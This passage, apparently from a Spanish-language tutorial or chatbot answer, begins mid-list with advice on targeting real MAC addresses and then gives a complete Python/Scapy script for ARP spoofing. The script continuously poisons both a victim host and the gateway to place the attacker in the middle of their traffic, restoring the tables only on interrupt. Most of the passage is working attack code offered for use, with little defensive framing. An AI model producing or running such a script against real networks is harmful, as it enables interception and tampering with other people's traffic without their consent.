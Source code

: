 4. **Obtener MAC de Destino**:
   - En lugar de usar `hwdst="ff:ff:ff:ff:ff:ff"`, obtén la MAC real de la víctima y el gateway para enviar paquetes dirigidos específicamente, lo que es más eficiente.

---

### **5. Ej: Mejorado**

Aquí hay una versión mejorada que envenena tanto la víctima como el gateway y restaura las tablas ARP al finalizar:

```python
from scapy.all import ARP, Ether, sendp, get_if_hwaddr, conf, srp
import time

def get_mac(ip):
    """Obtiene la dirección MAC de una IP."""
    arp_request = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(pdst=ip)
    respuesta = srp(arp_request, timeout=2, verbose=False)[0]
    return respuesta[0][1].hwsrc if respuesta else None

def arp_spoof(target_ip, target_mac, spoof_ip, iface):
    """Envía paquetes ARP falsos."""
    arp_respuesta = ARP(pdst=target_ip, hwdst=target_mac, psrc=spoof_ip, hwsrc=get_if_hwaddr(iface))
    paquete = Ether(dst=target_mac) / arp_respuesta
    sendp(paquete, iface=iface, verbose=False)

def restore_arp(target_ip, target_mac, source_ip, source_mac, iface):
    """Restaura la tabla ARP enviando paquetes legítimos."""
    arp_respuesta = ARP(pdst=target_ip, hwdst=target_mac, psrc=source_ip, hwsrc=source_mac)
    paquete = Ether(dst=target_mac) / arp_respuesta
    sendp(paquete, iface=iface, count=5, verbose=False)

# Configuración
objectivo = "192.168.1.108"
gateway_ip = "192.168.1.1"
interface_red = conf.iface

# Obtener MACs
target_mac = get_mac(objectivo)
gateway_mac = get_mac(gateway_ip)

if not target_mac or not gateway_mac:
    print("No se pudo obtener la MAC de la víctima o el gateway.")
    exit()

try:
    print(f"Iniciando ARP Spoofing en {objectivo}...")
    while True:
        # Envenenar víctima (fingir ser el gateway)
        arp_spoof(objectivo, target_mac, gateway_ip, interface_red)
        # Envenenar gateway (fingir ser la víctima)
        arp_spoof(gateway_ip, gateway_mac, objectivo, interface_red)
        time.sleep(0.5)
except KeyboardInterrupt:
    print("Restaurando tablas ARP...")
    # Restaurar tablas ARP
    restore_arp(objectivo, target_mac, gateway_ip, gateway_mac, interface_red)
    restore_arp(gateway_ip, gateway_mac, objectivo, target_mac, interface_red)
    print("Spoofing terminado.")
```

---
